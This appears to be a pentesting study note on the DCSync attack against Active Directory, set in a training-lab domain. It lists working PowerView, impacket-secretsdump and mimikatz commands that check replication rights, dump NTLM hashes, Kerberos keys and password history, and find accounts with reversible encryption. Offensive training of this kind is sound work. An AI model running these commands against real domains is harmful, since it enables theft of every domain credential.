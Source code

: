 DCSync is a technique for stealing the Active Directory password database by using the built-in `Directory Replication Service Remote Protocol`, which is used by Domain Controllers to replicate domain data. This allows an attacker to mimic a Domain Controller to retrieve user NTLM password hashes.

To perform this attack, you must have control over an account that has the rights to perform domain replication (a user with the Replicating Directory Changes and Replicating Directory Changes All permissions set). Domain/Enterprise Admins and default domain administrators have this right by default.

# Powerview
View user's group membership
```powershell-session
Get-DomainUser -Identity adunn  |select samaccountname,objectsid,memberof,useraccountcontrol |fl
```

check users replication rights, it needs to have DS-Replication-Get-Changes-All in order to perform DCSync 
```
$sid = Convert-NameToSid username
Get-ObjectAcl "DC=inlanefreight,DC=local" -ResolveGUIDs | ? { ($_.ObjectAceType -match 'Replication-Get')} | ?{$_.SecurityIdentifier -match $sid} |select AceQualifier, ObjectDN, ActiveDirectoryRights,SecurityIdentifier,ObjectAceType | fl
```

Extracting NTLM Hashes and Kerberos Keys using secretsdump.py

```shell-session
impacket-secretsdump -outputfile inlanefreight_hashes -just-dc INLANEFREIGHT/adunn@172.16.5.5 
```
all the hashes and keys and passwords are saved in the working directory

`-just-dc-ntlm` flag if we only want NTLM hashes or specify `-just-dc-user <USERNAME>`

`-pwd-last-set` to see when each account's password was last changed

`-history` if we want to dump password history,

`-user-status` see if a user is disabled.

```
impacket-secretsdump hacker@academy-ea-dc01.inlanefreight.local -k -no-pass -just-dc-ntlm -just-dc-user bross
```

REversible Encryption Password Users
powerview
```powershell-session
Get-ADUser -Filter 'userAccountControl -band 128' -Properties userAccountControl

Get-DomainUser -Identity * | ? {$_.useraccountcontrol -like '*ENCRYPTED_TEXT_PWD_ALLOWED*'} |select samaccountname,useraccountcontrol
```

alternative:
runas.exe as the domain administrator and then run mimikatz.exe
```
runas /netonly /user:INLANEFREIGHT\adunn powershell
```

```
privilege::debug

lsadump::dcsync /domain:INLANEFREIGHT.LOCAL /user:INLANEFREIGHT\administrator
```
